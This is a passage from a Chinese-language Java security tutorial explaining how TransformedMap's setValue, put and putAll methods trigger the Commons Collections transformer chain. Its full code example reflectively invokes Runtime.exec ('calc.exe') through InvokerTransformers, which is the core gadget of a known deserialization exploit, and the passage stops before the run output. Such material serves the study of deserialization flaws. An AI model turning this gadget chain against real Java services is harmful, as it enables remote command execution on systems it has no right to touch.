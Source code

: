 调用`TransformedMap`的`setValue` 、 `put` 、 `putAll`中的任意方法都会调用`transform`方法，从而也就会触发命令执行：

??? example "使用 TransformedMap类的setValue触发transform示例："

    ```java
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.map.TransformedMap;

    import java.util.HashMap;
    import java.util.Map;

    public class TransformedMapTest {

        public static void main(String[] args) {
            String cmd = "calc.exe";

            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{
                            String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
                    ),
                    new InvokerTransformer("invoke", new Class[]{
                            Object.class, Object[].class}, new Object[]{null, new Object[0]}
                    ),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
            };

            // 创建ChainedTransformer调用链对象
            Transformer transformedChain = new ChainedTransformer(transformers);

            // 创建Map对象
            Map map = new HashMap();
            map.put("value", "value");

            // 使用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
            Map transformedMap = TransformedMap.decorate(map, null, transformedChain);

            // transformedMap.put("v1", "v2");// 执行put也会触发transform

            // 遍历Map元素，并调用setValue方法
            for (Object obj : transformedMap.entrySet()) {
                Map.Entry entry = (Map.Entry) obj;

                // setValue最终调用到InvokerTransformer的transform方法,从而触发Runtime命令执行调用链
                entry.setValue("test");
            }

            System.out.println(transformedMap);
        }

    }
    ```

    运行结果如下：
